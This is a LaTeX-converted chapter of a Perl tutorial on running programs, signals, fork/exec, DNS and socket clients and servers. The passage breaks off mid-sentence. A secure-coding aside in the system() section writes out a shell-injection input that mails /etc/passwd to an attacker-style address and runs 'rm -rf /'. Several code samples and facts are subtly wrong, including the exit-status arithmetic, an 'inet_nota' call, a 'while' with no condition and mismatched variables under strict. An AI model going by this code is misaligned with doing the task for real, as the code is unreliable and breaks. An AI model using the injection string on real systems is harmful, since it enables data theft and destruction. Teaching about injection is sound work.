% LaTeX/AMS-LaTeX

\documentclass[a4paper,11pt]{book}

%%% remove comment delimiter ('%') and specify encoding parameter if required,
%%% see TeX documentation for additional info (cp1252-Western,cp1251-Cyrillic)
%\usepackage[cp1252]{inputenc}

%%% remove comment delimiter ('%') and select language if required
%\usepackage[english,spanish]{babel}

\usepackage{amssymb}
\usepackage{amsmath}
\usepackage[dvips]{graphicx}
%%% remove comment delimiter ('%') and specify parameters if required
%\usepackage[dvips]{graphics}

\begin{document}

%%% remove comment delimiter ('%') and select language if required
%\selectlanguage{spanish} 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent The World of Perl

\noindent 

\noindent 

\noindent 

\noindent We're  almost there.  You've  learned  the  basics  of Perl,  and  there's  not very  much  more  about  the language  itself to  know.  Almost  everything  you'll  ever  do  with  perl  will  be  built  upon  what you've seen in the past 14 chapters.  Beyond  that,  it's  just  a  matter  of  applying  what  you  know  to  what you want to do.

\noindent 

\noindent So, even if we can't grow upwards, we can grow outwards. In this final chapter, we'll take a look at a few

\noindent of the areas in which we can put Perl to use. At the same time, we'll try to broaden our programming horizons. Our first port of call should be the CPAN, where you'll be able to find modules to extend Perl's capabilities and make your programming a lot easier.

\noindent 

\noindent Don't forget that as well as enabling Perl extensions, the modules and programs in CPAN are worth reading as examples of Perl code. Look at how Perl programmers view problems and furthermore, how they solve them. Examine the way they structure their programs, and get familiar with the idioms they use. The way to get really fluent in a language is to pick up on what the natives do and copy them.

\noindent CPAN can help you do that.

\noindent 

\noindent This chapter aims to give you a taste of the sort of things you can do with Perl, and we'll examine some

\noindent of the more common extensions that people use. We'll look at networking, graphical interfaces for Perl programs, working with mathematics, statistics, and cryptography, dealing with XML and other kinds of data source, and some additional tricks we can use when combining Perl and the web.

\noindent 

\noindent Of course, this isn't all. There are hundreds upon hundreds of modules in CPAN, and it's impossible for

\noindent us to consider them all here. Some are purely Perl, but the majority are concerned with extending Perl.

\noindent By this, we mean that they allow Perl to take elements written in C or other languages and use them just like Perl subroutines. The DBI modules that we saw in our Database chapter did just this. While we

\noindent won't go into exactly how it's done here, you should be aware that Perl is going to be talking to C libraries and may well need some additional things installed, like a C compiler and any external libraries the module wants to interface with.

\noindent 

\noindent 

\noindent IPC and Networking

\noindent So far, all our programs have been very antisocial; they've only been talking to themselves and to the user. Now, talking to yourself is great fun, and you get the most sense that way, but it does get you funny looks after a while. Besides, even programs get lonely. Now we're going to a brief look at the

\noindent various ways in which programs can interact with the world around them, whether with other programs

\noindent on the same computer, or with programs on totally different computers across a network.

\noindent  

\noindent  

\noindent  

\noindent  

\noindent 

\noindent 

\noindent These are the four specific areas we'll be looking at:

\noindent 

\noindent ? Running Programs -- one of the original aims of Perl was to be a glue language, for running programs, collecting the output, massaging it, and feeding it to other programs. We've already seen how to open pipes to programs; we'll examine some more general ways of starting off

\noindent other programs and dealing with their input and output.

\noindent ? Communicating Between Programs -- another word for programs running on the computer is

\noindent 'processes'. In most operating systems these days, you can have more than one process running at once; in fact, you're likely to have hundreds going on, including those central to your operating system itself. It's useful to have these processes talk to each other, and the

\noindent general term for this is \textbf{Inter-Process Communication }-- for short, \textbf{IPC}. We'll look particularly

\noindent at programs running on the same computer.

\noindent ? Networking Clients -- any time you use a web browser, send an email, read Usenet news, or chat on IRC, you're using a networking client. This is any kind of program that talks to a service on a computer attached to a network, whether it's a local network in your house or office or somewhere out there on the Internet.

\noindent We can use Perl for all sorts of network client tasks, we've already seen that it can talk to web servers and download pages. We'll see that it can be used to transfer files, read news, send email, and a lot more besides.

\noindent ? Network Servers -- finally, we can have our Perl program act as a network server, to serve information for clients connecting to our computer. This is the most flexible way we have

\noindent of sharing information with other programs, both on our local machine and elsewhere on the network.

\noindent 

\noindent Note that a few of the topics in this chapter aren't applicable to Windows -- however, the majority are,

\noindent so bear with us!

\noindent 

\noindent Perl takes the approach that if your operating system lacks a part of UNIX's functionality, it'll do its best

\noindent to provide that functionality itself. For instance, a lot of work went into perl 5.6.0 to get fork emulated

\noindent on Windows systems. The examples of fork will now work on Windows, but only if you've got the

\noindent ActiveState Perl version 5.6.0 or higher.

\noindent 

\noindent If something absolutely won't work on Windows, we'll point it out as we go along. Alternatively, consider getting hold of the Cygwin GNU C Library implementation, which provides a UNIX-like emulation layer for Windows. You can get this from http://sourceware.cygnus.com/cygwin/.

\noindent 

\noindent Running Programs

\noindent Let's start off by thinking about the programs on our own computer. We've already seen one way of getting information to a process and listening to its output -- but not at the same time -- using pipes and the open operator. For instance, we could send our output to the more program, which will display it

\noindent on the screen page by page:

\noindent 

\noindent open (OUT, "\textbar more") or *OUT = *STDOUT;

\noindent 

\noindent Similarly, we could retrieve input from a program by reading from a pipe attached to it:

\noindent 

\noindent open (IN, "lynx\textbar ") or die "Couldn't start lynx";

\noindent 

\noindent Now let's see some other ways perl gives us to run programs and manipulate their input and output.

\noindent 

\noindent 

\noindent \textit{system}

\noindent This is the simplest mechanism for starting new processes. It's nice and easy. system just stops perl for

\noindent a while and hands over control to another program instead. When that program's finished, your original program carries on where it left off.

\noindent 

\noindent ? The bad news -- system doesn't allow perl to communicate directly with the new program.

\noindent 

\noindent ? The good news -- Perl passes on the standard input and standard output filehandles to the program being run. If standard input's connected to your keyboard, you can therefore type interactively at the program, just as if you were running it from the shell prompt.

\noindent 

\noindent There are two ways of calling system. First, use your system's shell. Second, have perl create the new process itself. Why two ways? Well, you can use the system's shell to do redirection and piping for you. So, if you want to produce a directory listing piped through a pager, you could say:

\noindent 

\noindent system("dir \textbar  more");

\noindent 

\noindent Furthermore, if your shell allows you to run processes in the background -- that is, have the program do

\noindent its thing while your Perl program carries straight on -- you can do this from a call to system as well. However, the problem with using a shell is that it's susceptible to attack when you're dealing with data coming in from outside your program. So, for instance, if you were to say:

\noindent 

\noindent \$files = $<$STDIN$>$;

\noindent system("dir \$files");

\noindent 

\noindent you might expect the user to give you a set of files, which you'd pass to the dir program to list. However, as you should have spotted, the user could just as easily do something horrific like this:

\noindent 

\noindent Give me a list of files: \textbf{; mail bad}.guy@blackhat.org\textbf{ $<$ /etc/passwd ; rm -rf /}

\noindent 

\noindent We saw something like this in Chapter 12 -- given half a chance, this will display the current directory, mail off your password file, and attempt to delete any file it can on your system. You're giving the user access to your shell. You're allowing him to do \textit{anything he wants }to your computer.

\noindent 

\noindent Instead of this, you want to arrange things so that the shell is avoided and the input passed directly to

\noindent dir. We do this using the second form:

\noindent 

\noindent system("dir", \$files);

\noindent 

\noindent Not \textit{that }different, but it illustrates an important point. Say system(\$program, @arguments), and perl will start the program directly, without going through the shell. There's no \textit{chance }to run additional programs or do anything with pipes or redirection.

\noindent 

\noindent For reasons of safety, where there are no special shell characters in the string (* or ? for globbing, \textbar  for pipes, $<$, \& and $>$ for redirection), perl automatically treats calls made in the first form as though they

\noindent were made in the second.

\noindent 

\noindent When a program exits, it has one last chance to pass on information to the world -- it can give an exit value from 0 to 255. By tradition, zero is given if all went well (the meaning of any other number is

\noindent up to the program to define). To retrieve the exit value of the program, take the value of \$? and

\noindent divide by 128.

\noindent 

\noindent 

\noindent \textit{Backticks and qx()}

\noindent If you need to access the program's output, you can't use system -- it will only returns the status, as explained above. The output goes unhindered to STDOUT. You must therefore use backtick quoting or the generic quote version, qx().

\noindent 

\noindent Calling a program in this manner returns the output of the program, which you can then stuff into a variable. Whether qx() returns a list or a scalar depends on the context it's called in. If you ask for a list, you'll get each line of output as a separate element; if you ask for a scalar, you'll get it all in

\noindent one go.

\noindent 

\noindent As the FAQ points out, the usual way of finding out your hostname (the name by which your computer

\noindent is known on the Internet) is to call the external program hostname if it exists:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# myhost.plx

\noindent use warnings;

\noindent use strict;

\noindent use Sys::Hostname;

\noindent 

\noindent my \$host = `hostname`;

\noindent if (\$!) \{

\noindent print "There was an error calling hostname: \$!\textbackslash n";

\noindent \$host = hostname();

\noindent unless (\$host) \{

\noindent die "I give up!\textbackslash n";

\noindent \}

\noindent \} else \{

\noindent chomp \$host;

\noindent \}

\noindent print "I think your host is \$host\textbackslash n";

\noindent 

\noindent Running this on my home computer, I get the following:

\noindent 

\noindent $>$\textbf{perl myhost.plx}

\noindent I think your host is justanother.perlhacker.org

\noindent $>$

\noindent 

\noindent It simply retrieves the name of the current host and prints it out. If there's an error running the program, we'll be notified via the variable \$!, just like an open or any other system call.

\noindent 

\noindent Processes and IPC

\noindent 

\noindent A process is simply an instance of a program that's currently being executed. Whenever the computer runs some program off the hard disk, it's created a new process -- it's literally the running incarnation of

\noindent a given program. IPC (InterProcess Communication) denotes a set of facilities (originally introduced in

\noindent the AT\&T System V.2 release of UNIX) that allow separate processes to communicate with one another.

\noindent 

\noindent \textit{Signals}

\noindent Signals are the most basic type of IPC -- a message sent to a process (either from the operating system or another process) to alert it that something has happened. Your operating system may support any

\noindent number of signals, but the typical number is 32. Each signal has a name, although some are reserved for specific events Others are available for you to give them your own meanings.

\noindent 

\noindent 

\noindent The important signals to know about are INT, ALRM, PIPE, and CHLD.

\noindent 

\noindent ? INT usually means that a user has pressed \textit{Ctrl-C }to interrupt the current program. By default, the operating system will tell your program to shut down and terminate when receiving an

\noindent INT.

\noindent 

\noindent ? An ALRM is like an alarm clock going off. You call the alarm function with a number of seconds, and the operating system arranges for an ALRM signal to be delivered to your process after that time.

\noindent 

\noindent ? PIPE is received as a warning that the program is trying to write to a closed or disconnected socket or pipe. By default, this will cause your program to terminate and say "broken pipe".

\noindent 

\noindent ? CHLD we'll examine in the next section.

\noindent 

\noindent 

\noindent Try It Out : Listing Supported Signals

\noindent You can see which signals your system supports by examining the keys of the special 'signals hash',

\noindent \%SIG; however, this will only give you the names. To find out both their names and their numbers, you'll have to use the Config module.

\noindent 

\noindent Config is a special module that gets built when perl is being compiled. It stores information about your system in \%Config and contains documentation explaining each key in the hash. For more

\noindent information, check out perldoc Config.

\noindent 

\noindent Here's a slightly adapted example from the Config documentation:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# listsigs.plx

\noindent use warnings;

\noindent use strict;

\noindent use Config;

\noindent unless(\$Config\{sig\_name\} \&\& \$Config\{sig\_num\}) \{

\noindent die "No signals on this system?";

\noindent \}

\noindent 

\noindent my @names = split ' ', \$Config\{sig\_name\};

\noindent my @numbers = split ' ', \$Config\{sig\_num\};

\noindent my @signals;

\noindent 

\noindent while (@names) \{

\noindent my \$name = pop @names;

\noindent my \$number = pop @numbers;

\noindent \$signals[\$number] = \$name;

\noindent \}

\noindent for (0..\$\#signals) \{

\noindent print "\$\_  -$>$ \$signals[\$\_]  ";

\noindent print "\textbackslash n" unless \$\_  \% 5;

\noindent \}

\noindent print "\textbackslash n";

\noindent 

\noindent 

\noindent This should print a list somewhat like this (exact contents will depend on the system you're using):

\noindent 

\noindent $>$\textbf{perl listsigs.plx}

\noindent 0 -$>$ ZERO

\noindent 1 -$>$ HUP  2 -$>$ INT  3 -$>$ QUIT  4 -$>$ ILL  5 -$>$ TRAP

\noindent 6 -$>$ ABRT  7 -$>$ EMT  8 -$>$ FPE  9 -$>$ KILL  10 -$>$ BUS

\noindent 11 -$>$ SEGV  12 -$>$ SYS  13 -$>$ PIPE  14 -$>$ ALRM  15 -$>$ TERM

\noindent 16 -$>$ URG  17 -$>$ STOP  18 -$>$ TSTP  19 -$>$ CONT  20 -$>$ CHLD

\noindent 21 -$>$ TTIN  22 -$>$ TTOU  23 -$>$ IO  24 -$>$ XCPU  25 -$>$ XFSZ

\noindent 26 -$>$ VTALRM  27 -$>$ PROF  28 -$>$ WINCH  29 -$>$ LOST  30 -$>$ USR1

\noindent 31 -$>$ USR2

\noindent $>$

\noindent 

\noindent \textit{How It Works}

\noindent The Config module provides us with a whole host of information, but we're particularly interested in two things here: a space-separated list of the \textbf{names }of the symbols we found and (since that list isn't in numerical order) another space-separated list of the signal \textbf{numbers}. We take these lists and split them

\noindent up into arrays:

\noindent 

\noindent my @names = split ' ', \$Config\{sig\_name\};

\noindent my @numbers = split ' ', \$Config\{sig\_num\};

\noindent 

\noindent Now we correlate names with their numbers:

\noindent 

\noindent while (@names) \{

\noindent my \$name = pop @names;

\noindent my \$number = pop @numbers;

\noindent \$signals[\$number] = \$name;

\noindent \}

\noindent 

\noindent Once we've done that, printing out the list is just a matter of running through each element of the array:

\noindent 

\noindent for (0..\$\#signals) \{

\noindent print "\$\_  -$>$ \$signals[\$\_]  ";

\noindent print "\textbackslash n" unless \$\_  \% 5;

\noindent \}

\noindent 

\noindent \textit{Trapping Signals}

\noindent The purpose of the signals hash is to allow us to specify what we'd like to do on receiving certain signals. You can tell perl to ignore specific ones, use the default behavior, or call some function on receiving the signal.

\noindent 

\noindent The keys are named after the various signals that the system supports, and valid values are either the strings "IGNORE" or "DEFAULT" or a subroutine reference to be called. This subroutine, a \textbf{signal}

\noindent \textbf{handler}, should do as little as it possibly can to satisfactorily deal with the signal and promptly return to

\noindent the main program.

\noindent 

\noindent 

\noindent \textbf{Perl's signals are \textit{not }guaranteed to be re-entrant, that is, it's quite possible to receive}

\noindent \textbf{another signal while in the middle of a signal handler. This can clearly have}

\noindent \textbf{unpredictable results. Consequently, your signal handler shouldn't take a long time to}

\noindent \textbf{execute and should avoid system operations.}

\noindent 

\noindent 

\noindent Different operating systems (even different UNIX variants) cope with signal handlers in different ways.

\noindent On systems derived from 'UNIX System V', the signal handler is regarded as 'one-shot'. This means that once the signal handler has been used by a signal, the signal handler reverts to default. If you need to be able to receive more than one signal, then you must reinstall the handler:

\noindent 

\noindent Since you never know what sort of system your program will ultimately run on, it's best (that is, safest)

\noindent to assume the worst case and do things SystemV style.

\noindent 

\noindent Setting a signal handler on ALRM allows us to time out a long operation. We can arrange for a signal to be delivered to us after a given amount of time:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#sleepdemo.plx

\noindent use warnings;

\noindent use strict;

\noindent 

\noindent \$SIG\{ALRM\} = sub \{ die "SIGALRM received" \}; \# anon sub provided

\noindent 

\noindent eval \{

\noindent alarm 30;

\noindent my \$input = STDIN;

\noindent alarm 0; \# turn off the alarm if we reach here in time

\noindent \}

\noindent 

\noindent if  (\$@)\{\# \$@ contains errors from last eval, undef if eval went smoothly

\noindent if (\$@ =\~{} /SIGALRM/) \{

\noindent print "Operation timed out.\textbackslash n";

\noindent \} else \{

\noindent die "Something unexpected occurred; \$@\textbackslash n";

\noindent \}

\noindent \}

\noindent 

\noindent \textit{Fork, Wait and Exec}

\noindent Many of the mechanisms perl uses to execute external programs rely on the underlying behavior of these three system calls:

\noindent 

\noindent \textit{fork}

\noindent All processes (apart from the very first process on the system) are created through forking, which makes

\noindent an exact copy of the running process. If you call fork in Perl, your program forks into two processes: the \textbf{parent }and the \textbf{child}. They'll have different process IDs, but other than that, they'll be absolutely identical (sharing the same filehandles, variables containing the same values), and the programs will continue running from the same point in the code under identical conditions.

\noindent 

\noindent The fork operator takes no arguments. It returns zero when used in the child process and returns the child's process ID when used in the parent process. If the fork call fails, it returns the undefined value:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# forktest.plx

\noindent use warnings;

\noindent use strict;

\noindent my \$f = fork; \# Program splits in two here

\noindent if (defined \$f) \{

\noindent if (\$f == 0) \{

\noindent print "This is the child process\textbackslash n";

\noindent exit;

\noindent 

\noindent 

\noindent 

\noindent \} else \{

\noindent print "This is the parent process\textbackslash n";

\noindent exit;

\noindent \}

\noindent \} else \{

\noindent print "Your system doesn't support fork!\textbackslash n";

\noindent \}

\noindent 

\noindent If fork is available on your system, you should see:

\noindent 

\noindent This is the child process

\noindent This is the parent process

\noindent 

\noindent \textit{wait}

\noindent When you fork, there's a chance that the child process may finish before the parent process. If so, the child sends a CHLD signal to the parent and expects the parent to call wait. This is known as 'reaping' the process. If this \textit{isn't }carried out, the child will stick around doing nothing, without being killed off. This is known as a 'zombie' process.

\noindent 

\noindent \textit{Arguably the best part about IPC is the terminology -- it's not often you get the chance, in all seriousness, to talk about killing your children and reaping them before they turn into zombies.}

\noindent \textit{Or at least we hope not.}

\noindent 

\noindent Typically, you'd use a signal handler to collect the CHLD signal and then call wait. A typical handler would look like this:

\noindent 

\noindent 

\noindent \$SIG\{CHLD\} = \textbackslash \&reaper;

\noindent sub reaper \{

\noindent my \$child = wait;

\noindent print "Process \$child has exited cleanly.\textbackslash n";

\noindent \$SIG\{CHLD\} = \textbackslash \&reaper;

\noindent \}

\noindent 

\noindent \textit{exec}

\noindent exec is a brain transfusion for your process. Instead of calling another program and then coming back, exec replaces the current process with a new one, which will have the same process ID and the same open filehandles.

\noindent 

\noindent Networking

\noindent 

\noindent Now that we've seen some of what's involved with running programs on a single computer, what about communication between computers?

\noindent 

\noindent Most  computers on the Internet  and  on many  smaller  networks  talk  to  each other  using  an agreed protocol  called \textbf{TCP/IP}. In  fact,  the  'IP'  stands  for  'Internet  Protocol'.  (The  rest,  in  case you're  interested,  stands for 'Transmission  Control  Protocol'.)  If  you  want to  use Perl  to  talk to

\noindent remote computers,  it's highly likely  that  this  is  what  you'll  be  using.  So  let's  have  a  look at  some

\noindent TCP/IP fundamentals.

\noindent 

\noindent 

\noindent \textit{IP Addresses}

\noindent Each  computer out there on  the  Internet  has  an  \textbf{IP address},  a  unique  number  that  identifies  it.  Think

\noindent of it as that computer's telephone  number.  In  actual  fact,  some  computers  have  several,  and  they may answer differently  if you  contact  them  on  different  addresses.  In  a  similar  way,  I  could  have a

\noindent telephone number and  a fax  number.  They'd  both  belong  to  me,  but you  might  get  a  shock  if  you called the wrong one.

\noindent 

\noindent Telephone numbers are usually written as something like 123-4567 in the US, or (01865) 123456

\noindent in the UK. IP addresses are currently written as a \textbf{dotted quad }- four numbers between 0 and 255, separated by periods. For example, 208.201.239.50 is the machine that answers when you point a web browser at http://www.perl.com/. We'll see in a moment exactly how your browser knows this. Of

\noindent course, your computer doesn't handle it as a dotted quad internally. Each of those numbers represents a byte, so an IP address is stored as 4 bytes.

\noindent 

\noindent IP  addresses are controlled by  a  handful  of  central  registries  --  RIPE  in  Europe,  ARIN  in  the  US.

\noindent They delegate  portions of the  IP  address  space  to  large  Internet  Service  Providers,  who  split  them  up

\noindent and  delegate to  smaller ISPs,  who  eventually  allocate  them  to  you.  If  you  have  a  dial-up  connection  to the Internet,  your ISP  probably  hands  you  one  of its  own  IP  addresses  automatically  when  you

\noindent connect.  If  your  company is connected  to  the  Internet,  it's  probably  negotiated  a  set of  its  own IP

\noindent addresses with its ISP.

\noindent 

\noindent \textit{Sockets and Ports}

\noindent Each computer can run a number of different servers. One IP address can have a web server, an FTP server, a news server, and so on. So in order to use a specific service, in addition to specifying an IP address, you need to specify another number, called a port. Port numbers run from 0 to 65535, but only

\noindent a few are in common use.

\noindent 

\noindent For example, the web server behind http://www.perl.com/ would be connected to port 80 of the IP address 208.201.239.50. The standard port for web servers is 80, and that's what your web browser typically connects to. That machine may have some other services sitting on other ports: FTP on port

\noindent 21, news on port 119, and so on.

\noindent 

\noindent 

\noindent \textit{If you have a UNIX system, you might want to take a look at the file /etc/services, which lists several standard (or 'well-known') ports and the services that live on them.}

\noindent 

\noindent 

\noindent Once you've got an IP address and a port number, you've got a way to uniquely identify a location to connect to on the Internet. This is called a \textbf{socket}, because it's somewhere you can plug into and talk to

\noindent a server. The two Perl modules we're going to use for programming sockets are called Socket and

\noindent IO::Socket.

\noindent 

\noindent Connecting to a socket is rather like connecting to a helpdesk or a phone pool. You're given a number

\noindent to connect to, and when your call gets through, you get passed off to an operator. That operator can be on one of many phones in the pool or perhaps on a different extension.

\noindent 

\noindent In terms of this analogy, the number you connect to and the one you actually talk to are different. Once you've established a connection with a network server (by connecting to a well-known port), it's likely

\noindent that it'll pass you on to another socket, where the actual communication will take place. This is called

\noindent \textbf{accept}ing the connection.

\noindent 

\noindent 

\noindent \textit{Domain Name Service}

\noindent People prefer names to numbers, and computers prefer numbers to names, so in order to keep everyone happy, there's a system to convert an IP address to a name (like www.perl.com) and back again. This is called the \textbf{domain name service }(\textbf{DNS}). It's a hierarchical-distributed database -- hierarchical in structure

\noindent but distributed physically. You send a series of progressively narrower queries to get a result, asking different machines as the queries get more and more specific.

\noindent 

\noindent Say you have a name like www.perl.com. You'll first have to go to one of the six 'root servers' to find out who can answer on behalf of .com. Well, there are a lot of .com addresses, so there are twelve machines that process requests for them. We ask these, and they tell us that there are three servers

\noindent responsible for perl.com, one of which is called ns1.sonic.net. They also, very helpfully, tell us the IP

\noindent address of ns1.sonic.net. Without this we'd never get anywhere! Now we can ask that server for the IP

\noindent address of www.perl.com itself, and away we go:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# dnslookup.plx use warnings; use strict;

\noindent my \$address=gethostbyname('www.perl.com');

\noindent print \$address,"\textbackslash n";

\noindent 

\noindent When you run this, you should see a complete mess. That's because, as we mentioned earlier, the IP address is handled as four bytes, which print treats as four ASCII characters. However, we'd rather see it as a dotted quad. Fortunately, the Socket library has a subroutine that can translate it for us:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# dnslookup.plx use warnings; use strict;

\noindent use Socket;

\noindent my \$address=gethostbyname('www.perl.com');

\noindent print inet\_nota(\$address),"\textbackslash n";

\noindent 

\noindent $>$\textbf{perl dnslookup.plx}

\[208.201.239.50\] 


\noindent \textit{Networking Clients}

\noindent There are a number of modules that allow us to connect to servers on remote machines. They take care

\noindent of the TCP/IP connection, as well as the specific details of the protocol the server wants us to speak. For instance, the LWP::Simple module (which we saw in Chapter 10) will take care of connecting to port

\noindent 80 on a remote web server, issuing a properly worded request for the page we want, retrieving the data

\noindent and so on. The modules in CPAN's Net:: hierarchy can be used to create network servers for a wide variety of clients and protocols. The libnet distribution (Chapter 10 again) includes all the most important ones.

\noindent 

\noindent \textit{Net::Ping}

\noindent This module gives us a way of checking whether a remote machine is alive (that is, active on the

\noindent network) or not. It basically does the same job as ping, a ubiquitous program that you'll find in one form

\noindent or another on virtually all network-enabled computers.

\noindent 

\noindent 

\noindent The /usr/ping binary that exists on most UNIX computers (it's ping.exe on Windows) sends an

\noindent ICMP Ping packet (Internet Control Message Protocol, part of the IP suite) to a remote computer. This should get a response directly from the other computer's protocol stack. You can therefore tell whether the remote computer is alive, without requiring any of that machine's processes to answer your request.

\noindent 

\noindent Net::Ping provides similar functionality. In addition to sending ICMP Ping packets, it can also do a normal TCP or UDP connect to one of the ports that are frequently set up as 'echo' services. Processes are frequently not running with sufficient permissions to send ICMP Ping packets (this usually entails having root privileges), so its ability to send a TCP or UDP ping is a bonus:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#ping.plx

\noindent use warnings;

\noindent use strict;

\noindent use Net::Ping;

\noindent 

\noindent \$hostname = shift @ARGV;

\noindent 

\noindent \$p = Net::Ping-$>$new("icmp"); \#could be "udp" or "tcp" instead

\noindent print "\$host is alive.\textbackslash n" if \$p-$>$ping(\$host);

\noindent \$p-$>$close();

\noindent 

\noindent \textit{TCP vs. UDP}

\noindent TCP (Transmission Control Protocol) is a stream-oriented protocol. Like a telephone conversation, it guarantees arrival of all data in order and without data loss. It's very easy to detect that the other end has disconnected, in an almost immediate fashion.

\noindent 

\noindent UDP (User Datagram Protocol) is more like the postal mail. Each message is packaged separately, arrives separately (possibly out of order), and may be dropped undetectably. UDP requires less processing to deal with: After all, while it's easy to receive mail from several different people at once,

\noindent you can't speak with that many on the telephone all at once. However, we shouldn't stretch this analogy too far. Since UDP requires significantly less overhead, it's also \textbf{easier }to send and \textbf{faster }to receive.

\noindent 

\noindent TCP sockets behave very much like pipes. So once they've been created, their programming interface is very similar. The IO::Socket module lets us manipulate TCP sockets just like filehandles, and this is

\noindent the easiest way to write networking clients from scratch.

\noindent 

\noindent \textit{Writing Clients}

\noindent The examples of clients we've seen so far have been pretty high level, having taken care of the behind-

\noindent the-scenes activities of organizing a network connection: connecting, passing messages to the server, and

\noindent so on. If we want to do this ourselves, we should investigate the IO::Socket module.

\noindent 

\noindent \textit{IO::Socket}

\noindent As we mentioned earlier, a socket is a hostname and a port. To connect to an Internet-style socket, we use the IO::Socket::INET class:

\noindent 

\noindent \$sock = IO::Socket::INET-$>$new( PeerAddr =$>$ "remote.host.com:7777", Proto =$>$ 'tcp');

\noindent \$sock = IO::Socket::INET-$>$new('remote.host.com:7777');

\noindent 

\noindent 

\noindent This takes a description of a socket and returns a filehandle if a connection could be made. We can both

\noindent read from and write to this filehandle, so we can use it to create very simple networking clients.

\noindent 

\noindent \textit{Simple TCP Clients}

\noindent The simplest form of TCP client relies on perl's line-oriented text processing behavior. Basically, it assumes that in the conversation between client and server, each distinct message is punctuated by a newline. Many protocols are line-oriented. They're easier to design and easy to test because a human can read the protocol directly and pretend to speak it with the help of telnet or a simple client.

\noindent 

\noindent The client reads each line from the newly created socket and injects a response as it feels necessary. However, it is important to realize that the conversation is led by the server. If the server has nothing to say and we are retrieving lines, then the client will wait until the server has said something to continue

\noindent into the loop:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#tcpclient.plx

\noindent use warnings;

\noindent use strict;

\noindent use IO::Socket;

\noindent 

\noindent my \$sock = IO::Socket::INET-$>$new('remote.host.com:7777');

\noindent while ($<$\$sock$>$) \{

\noindent print "Server: \$sock\textbackslash n";

\noindent print "Response?";

\noindent my \$response = $<$STDIN$>$;

\noindent \# Send response back to server:

\noindent print \$sock \$response;

\noindent \}

\noindent 

\noindent \textit{Blocking and IO::Select}

\noindent One of the trickier problems with I/O on UNIX has to do with the blocking nature of sockets. Basically, blocking means you're reading from a socket that has no data. Your process will sit and wait until data becomes available to read from that socket. Likewise, writing to a socket won't occur until the socket is ready to be written to.

\noindent 

\noindent As a result of this, a number of situations become rather complicated. For example, in the earlier

\noindent example of the simple line-oriented TCP client, what if you wanted to listen to a stream of data coming down from the server process and occasionally send a message up to that server (perhaps if a user has typed something)? As soon as we tried to read from STDIN, we'd stop listening to the server socket! Likewise, as soon as we wait for something on the server socket, we wouldn't be listening for the user typing on STDIN! Finally, how would we go about implementing a server that could listen to several different sockets? How would it know which client will talk next? We need to be able to wait for input

\noindent on more than one socket at once.

\noindent 

\noindent IO::Select is a simple module, provided with the core perl distribution to present the select() interface in an easy to use and object-oriented format, in much the same manner as IO::Socket. It has several important methods.

\noindent 

\noindent After creating it, you simply add filehandles with the add() method. You can either pass it globrefs pointing to your files, or you can pass normal references to IO::Handle or its derivatives. Then, you can ask the IO::Select object for a list of ready filehandles with the can\_read() and

\noindent can\_write() methods.

\noindent 

\noindent 

\noindent With IO::Select we're therefore able to write a client that knows both when something has come

\noindent from the server and when the user has typed something, simply by creating an IO::Socket object and adding both server and STDIN:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#chatclient.plx

\noindent \# this client prints out entire lines sent by the server, and will send an

\noindent \# entire line of text when the user hits return.

\noindent 

\noindent use strict;

\noindent use IO::Socket;

\noindent use IO::Select;

\noindent use IO::Handle;

\noindent 

\noindent my \$stdin = new IO::Handle;

\noindent \$stdin-$>$fdopen(fileno(STDIN),"r");

\noindent 

\noindent my \$clientsock = IO::Socket::INET-$>$new(PeerAddr =$>$ "localhost",

\noindent PeerPort =$>$ 5000,

\noindent Proto =$>$ "tcp");

\noindent 

\noindent my \$sel = new IO::Select;

\noindent \$sel-$>$add(\$stdin);

\noindent \$sel-$>$add(\$clientsock);

\noindent 

\noindent while \{ \#loop forever

\noindent my @readyhandles = \$sel-$>$can\_read(); \#get the filehandles that are ready

\noindent foreach \$s (@readyhandles) \{ \#process each filehandle

\noindent if (\$s == \$stdin) \{ \#the user typed something

\noindent print \$clientsock $<$\$s$>$;

\noindent \} else \{ \#the server sent something.

\noindent print $<$\$s$>$

\noindent \}

\noindent \}

\noindent \}

\noindent 

\noindent \textit{Servers with IO::Socket}

\noindent Creating server processes is only slightly more complex than creating client programs -- that is, with the help of IO::Select. When we give arguments to IO::Select that indicate we're creating a server, it returns a server socket instead. This looks much like a normal socket, except that it's not connected to anything. Instead, you call the accept() method on the IO::Socket object, and it returns a second socket that contains the connection to the client. The server socket then goes back to listening for connections again.

\noindent 

\noindent When we call accept(), the server process will block if no clients have queued up for processing. We can therefore create a loop to process each client, one at a time. Unfortunately, we'd better not do much

\noindent (or wait very long), because a second client won't be serviced until we're done with the first, and call

\noindent accept on the server socket again.

\noindent 

\noindent In fact, when we create the object, we can use the Listen parameter to tell IO::Socket just how deep a queue of listeners to accept before they start getting turned away. Nevertheless, we can write simple services in this manner. For example:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#simpleserver.plx

\noindent use warnings;

\noindent use strict;

\noindent use IO::Socket;

\noindent 

\noindent my \$serv = IO::Socket::INET-$>$new(LocalPort =$>$ 9876,

\noindent Listen =$>$ 5); \# queue up no more than 5

\noindent \# pending clients

\noindent 

\noindent while(my \$client = \$serv-$>$accept()) \{ \#somebody connected!

\noindent print \$client "The time is now: ".scalar(localtime(time()))."\textbackslash n";

\noindent close \$client;

\noindent \}

\noindent 

\noindent As we now know, the problem with this sort of server is that it can't do very much or take very long, particularly if it's going to be connected to frequently. However, there are a number of different ways to deal with this.

\noindent 

\noindent The traditional UNIX solution is to fork off a child to deal with the request after a new client has connected. Older web servers (in the mid 1990's) used this method for dealing with many clients.

\noindent 

\noindent A newer, and somewhat faster technique is to 'prefork'. Instead of doing one fork per client, the server forks a number of children when it starts, so that they're ready to service clients as each client

\noindent connection arrives. This is faster, though somewhat more complicated, and some UNIX systems won't

\noindent allow multiple clients to wait on accept() on the same server socket. Finally, we could create a server based on the select loop.

\noindent Forking servers are the easiest to deal with. However, they have several downsides. They're not that

